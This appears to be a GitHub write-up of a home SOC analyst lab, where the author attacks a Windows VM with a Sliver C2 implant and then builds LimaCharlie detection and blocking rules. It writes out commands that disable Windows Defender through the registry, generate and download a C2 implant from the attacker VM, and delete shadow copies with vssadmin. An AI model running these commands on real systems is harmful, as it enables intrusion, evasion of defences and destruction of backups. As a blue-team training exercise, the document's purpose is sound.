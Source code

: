 # SOC Analyst lab
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

5.YARA scanning

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. YARA

5. Ubuntu Linux 

## Steps
# PART 1 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

# Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

# PART 3
This part was about crafting detections. This part uses lsass with the C2 implant I used in part 2. Lsass was not working for me (I am using a differnet VM because the correct VM downloads are unavailable)so I could not see this part through but I followed along with the website screenshots. First you start with a procdump command in the linux VM then you dectect it with LimaCharlie. lsass.exe is a known sensitive process "SENSITIVE_PROCESS_ACCESS" event is what you would search for in the timeline.


![image](https://github.com/user-attachments/assets/f72581a8-aa8d-424e-9cb9-1838318235a3)


Once you find the event, You can make a detection and response(D&R) rule that would alert anytime the activtiy(SENSITIVE_PROCESS_ACCESS) occurs


![image](https://github.com/user-attachments/assets/7309d48f-f75e-4123-a806-dd137e0d16bd)


![image](https://github.com/user-attachments/assets/30364e32-4a6b-419e-b40e-ba62df0fc38b)

![image](https://github.com/user-attachments/assets/bb23318c-6985-4f72-97ad-f0f8c9733dff)

![image](https://github.com/user-attachments/assets/f1b16971-7b17-4ae9-b385-3676095261bb)

Once the rule is made, you can go back to the linux VM and run the procdump command to test if the rule you made will work and detect the command


![image](https://github.com/user-attachments/assets/1c9a3908-8fab-4b0e-953c-c21683a328e2)

![image](https://github.com/user-attachments/assets/1241def0-18b1-4627-beec-89db52d063ec)

# PART 4
Part 4 is about blocking attacks. First I did the following command for Lima Charlie to detect:

vssadmin delete shadows /all

![Screenshot (21)](https://github.com/user-attachments/assets/bd354601-018c-46fc-9eda-9fa2d1a5ca5f)

![Screenshot (22)](https://github.com/user-attachments/assets/c2e071f6-d62f-4d41-af42-a06be25fbb49)

I opened the event from the timeline and created a detection & Response(D&R) rule.

![Screenshot (23)](https://github.com/user-attachments/assets/b1c492de-c1d5-41f5-8eb1-1d4cde8397be)


Then I tested if the rule worked and it blocked the command by kicking me out the shell.

![Screenshot (24)](https://github.com/user-attachments/assets/3cd1adb0-4b54-4fce-bb40-bb93b8689fb0)

# PART 5
This part is about tuning False Positives.


